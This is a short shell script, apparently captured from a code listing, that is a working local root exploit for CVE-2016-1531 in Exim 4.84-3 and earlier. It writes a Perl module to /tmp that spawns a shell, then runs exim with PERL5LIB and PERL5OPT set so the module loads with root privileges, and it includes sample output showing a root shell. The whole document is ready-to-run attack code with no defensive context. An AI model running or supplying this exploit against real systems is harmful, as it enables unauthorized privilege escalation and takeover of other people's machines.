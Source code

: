 
```bash
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```